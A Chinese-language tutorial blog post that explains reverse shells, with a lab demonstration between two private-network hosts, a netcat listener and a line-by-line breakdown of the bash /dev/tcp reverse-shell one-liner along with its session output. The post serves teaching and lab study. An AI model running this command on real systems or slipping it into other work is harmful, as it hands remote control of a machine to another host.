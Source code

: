 ```yaml
---
title: 反弹SHELL介绍及原理
date: 2021-01-27 23:26:09
tags:
keywords: 反弹shell, reverse shell, 反弹shell原理
description: 如果我们需要到服务器上执行 Shell 命令，但是因为防火墙等原因，无法由客户端主动发起连接的情况，就可以使用反弹 Shell 来满足登陆和操作的需求。
---
```


如果我们需要到服务器上执行 Shell 命令，但是因为防火墙等原因，无法由客户端主动发起连接的情况，就可以使用反弹 Shell 来满足登陆和操作的需求。

## 什么是反弹Shell

正常情况下，我们登陆服务器获取 Shell 会话是下面的步骤，用户在终端软件（Terminal）中输入 `ssh root@ip` 登陆目标机器，登陆成功后即可以开始Shell操作。

![image-20210128083442895](20210129-reverse-shell/image-20210128083442895.png)

反弹Shell（Reverse Shell），顾名思义是指与正常的 sshd 服务相反，由控制端监听，被控制端发起请求到监听端口，并将其命令行的输入输出转到控制端。

![image-20210129080743429](20210129-reverse-shell/image-20210129080743429.png)



## 实战介绍

准备两台网络连通的服务器：

* 控制端：172.16.51.130
* 被控端：172.16.51.128

控制端监听一个端口

```sh
$ nc -lvp 8888
listening on [any] 8888 ...

```

被控端生成一个反弹 Shell

```sh
$ bash -i >& /dev/tcp/172.16.51.130/8888 0>&1 2>&1
```

这时注意观察控制端，会出现被控端的 shell 提示符

```sh
172.16.51.128: inverse host lookup failed: Host name lookup failure
connect to [172.16.51.130] from (UNKNOWN) [172.16.51.128] 47584
tiago@lampiao:~$ whoami
whoami
tiago
tiago@lampiao:~$ hostname
hostname
lampiao
tiago@lampiao:~$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:cc:9b:c6 brd ff:ff:ff:ff:ff:ff
    inet 172.16.51.128/24 brd 172.16.51.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fecc:9bc6/64 scope link 
       valid_lft forever preferred_lft forever
```

在提示符下输入命令，可以看到确实是在被管机上执行的命令及返回的结果，就像我们登陆到了被管机一样。

具体解释如下：

```sh
$ nc -lvp 8888
```

使用 nc 命令在控制端监听端口，`-l` 表示监听 `-p` 表示端口。

```sh
$ bash -i >& /dev/tcp/172.16.51.130/8888 0>&1 2>&1
# bash -i 表示进入一个交互式的Shell环境
# >& 表示将交互式Shell发送给后续的文件，并且将&联合符号后面的内容也发送到重定向
# /dev/tcp/172.16.51.130/8888 实际是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
# 0>&1 表示将标准的输入与标准输出相结合，都发给重定向文件
# 2>&1 表示将标准输出和标准错误输出都发送到socket文件中，即我们能够在控制端看到命令的返回，在被控端看不到相关信息。
```

上面的命令联合起来意思就是，我们在被管机上产生了一个 bash 环境，将它发送给了远程的控制主机，同时将被管机的标准输入、标准输出、标准错误输出都发送给了控制主机，这样实现了获取被管主机 shell 执行环境的目的。

本文介绍的是最简单的一种反弹shell实现方式，反弹shell还有很多种的实现方式，实现的思路应该都差不多，等稍后整理出来与大家分享。 